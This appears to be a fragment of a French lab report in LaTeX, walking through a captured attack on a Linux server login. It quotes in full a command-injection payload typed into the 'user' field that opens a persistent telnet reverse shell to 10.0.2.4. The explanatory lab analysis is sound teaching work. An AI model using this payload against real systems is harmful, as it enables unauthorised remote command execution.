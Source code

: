 \documentclass[11pt]{article}
\begin{document}
Le hacker reçoit une réponse positive de la part du serveur et peut ensuite tenter de s’identifier sur le serveur.  (\textsc{Figure \ref{fig:6}})
\vspace{2cm}
 \begin{figure}[h!]
        \centering \includegraphics[scale=1]{Exo3/7.png}
        \caption{}
         \label{fig:7}
\end{figure}

Pour se connecter il rentre une ligne de commande particulière à la place du champ « user ».  (\textsc{Figure \ref{fig:7}})
Cette ligne est /=`nohup sh -c '(sleep 4428|telnet 10.0.2.4 5002|while : ; do sh \&\& break; done 2>\&1|telnet 10.0.2.4 5002 >/dev/null 2>\&1 \&)'`
Elle permet de lancer un processus qui restera actif même après la déconnexion de l’utilisateur. Ce processus émule un Shell à distance, c’est-à-dire qu’il demande au serveur linux d’ouvrir un Shell sur la machine du hacker. Ceci a pour but de pouvoir exécuter des commandes saisies au clavier sur une machine distante. De plus, le hacker redirige toutes les sorties (Out, Erreurs) vers /dev/null.
\vspace{2cm}
 \begin{figure}[h!]
        \centering \includegraphics[scale=0.8]{Exo3/8.png}
        \caption{}
         \label{fig:8}
\end{figure}

Par la suite la machine se rend compte que le login rentré n’est pas bon et envoie donc une erreur d’identification. Cependant, il est trop tard car le hacker peut déjà exécuter des commandes sur le serveur par le biais du Shell qu’il a ouvert. (\textsc{Figure \ref{fig:8}})

 \begin{figure}[h!]
        \centering \includegraphics[scale=1]{Exo3/9.png}
        \caption{}
         \label{fig:9}
\end{figure}

 \begin{figure}[h!]
        \centering \includegraphics[scale=1]{Exo3/10.png}
        \caption{}
         \label{fig:10}
\end{figure}
\end{document}
